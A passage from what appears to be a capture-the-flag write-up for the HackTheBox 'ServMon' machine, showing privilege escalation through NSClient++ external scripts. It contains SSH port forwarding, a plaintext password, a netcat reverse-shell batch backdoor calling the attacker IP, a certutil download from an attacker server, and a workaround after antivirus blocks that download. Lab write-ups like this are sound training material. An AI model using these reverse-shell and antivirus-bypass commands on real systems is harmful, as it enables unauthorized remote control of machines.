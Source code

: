 ```ini
; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true
```

`allowed hosts = 127.0.0.1` tells us we can authenticate only from localhost.

But as we have an SSH access we can do some local port forwarding (you can read
about this technique on my [article about pivoting](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)).

```
$ ssh nadine@10.10.10.184 -L 127.0.0.1:9999:127.0.0.1:8443 -N
```

We map the local port 8443 on ServMon machine to local port 9999 on our machine.

Now we should be able to authenticate at https://127.0.0.1:9999/ with password
`ew2x6SsGTxjRwXOT`.

Now the exploit tell us to enable some modules:

- CheckExternalScripts
- Scheduler

Now let's prepare our backdoor script: `cyfun.bat`

```bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```

We can try to download the bat script with [Certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/#download)
and a local HTTP server.

```
$ python -m http.server --bind 10.10.15.26
```

But that's a failure:

```
PS C:\Users\Nadine> cd C:\temp

PS C:\temp> certutil.exe -urlcache -split -f http://10.10.15.26:8000/cyfun.bat cyfun.bat
At line:1 char:1
+ certutil.exe -urlcache -split -f http://10.10.15.26:8000/cyfun.bat no ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

We can't download our script because it's blocked by an AV. So let's create is on
the server directly.

```
PS C:\temp> echo "@echo off" > cyfun.bat
PS C:\temp> echo "c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe" >> cyfun.bat
PS C:\temp> gc cyfun.bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```
